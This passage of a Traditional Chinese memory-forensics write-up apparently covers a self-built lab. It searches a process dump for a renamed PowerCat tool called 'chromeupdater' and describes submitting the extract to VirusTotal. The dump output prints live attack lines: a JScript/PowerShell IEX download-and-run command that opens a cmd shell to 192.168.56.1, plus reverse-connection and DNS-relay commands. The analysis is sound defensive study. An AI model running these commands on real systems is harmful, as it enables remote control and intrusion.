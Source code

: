 ```console
321963:      chromeupdater -c 10.1.1.15 -p 8000 -i C:\inputfile
321965:      chromeupdater -l -p 4444 -of C:\outfile
321967:      chromeupdater -l -p 8000 -ep -rep
321969:      chromeupdater -l -p 8000 -r tcp:10.1.1.1:9000
321973:      chromeupdater -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
322907:var r = new ActiveXObject("WScript.Shell").Run("powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater -c 192.168.56.1 -p 5566 -e cmd");
.
.
.
```
上面範例使用 `chromeupdater` 作為關鍵字查找，會看到大量重複的片段，可依個人偏好嘗試定位範圍，例如觀察前面所帶的行號嘗試了解分佈規律、大量取出後再人工篩選⋯⋯等
```console
$ strings pid.6304.dmp |grep -inE '^function chromeupdater' -A 10
218094:function chromeupdater
218095-  param(
218096-    [alias("Client")][string]$c="",
218097-    [alias("Listen")][switch]$l=$False,
218098-    [alias("Port")][Parameter(Position=-1)][string]$p="",
218099-    [alias("Execute")][string]$e="",
218100-    [alias("ExecutePowershell")][switch]$ep=$False,
218101-    [alias("Relay")][string]$r="",
218102-    [alias("UDP")][switch]$u=$False,
218103-    [alias("dnscat2")][string]$dns="",
218104-    [alias("DNSFailureThreshold")][int32]$dnsft=10,
--
331887:function chromeupdater
331888-  param(
331889-    [alias("Client")][string]$c="",
331890-    [alias("Listen")][switch]$l=$False,
331891-    [alias("Port")][Parameter(Position=-1)][string]$p="",
331892-    [alias("Execute")][string]$e="",
331893-    [alias("ExecutePowershell")][switch]$ep=$False,
331894-    [alias("Relay")][string]$r="",
331895-    [alias("UDP")][switch]$u=$False,
331896-    [alias("dnscat2")][string]$dns="",
331897-    [alias("DNSFailureThreshold")][int32]$dnsft=10,
...
```
上面嘗試藉由開頭為 `function chromeupdater` 的行數分別顯示後續幾行，再逐漸放大 `-A 後面的值`，尋找可能相對乾淨的片段
- #### 將可疑的片段取出，送 VirusTotal 檢測
```console
$ strings pid.6304.dmp |sed -n '333244,333744 p' > chromeupdater.txt
```
- ##### 上面這段送 VirusTotal 的話會被 `7/56` 檢出 (https://www.virustotal.com/gui/file/bf8fd2d4aa31f1e2886b9f81f5a2388cddde0f6a4ee153789a5498bb858256af)
- ##### 並且可以在辨識名稱與 YARA Rules 資訊看到多個 `PowerCat` 字樣
- ##### 前面 strings 內容也可以看到其實有 github 連結
	- 連結指向 https://github.com/besimorhino/chromeupdater ，連過去會 `Page Not Found`，因為我太懶了，當初直接全文把 `powercat` replace 成 `chromeupdater`
	- 連結往前退一段 https://github.com/besimorhino/ ，也可以看到他最有名的 repo 就 `powercat`
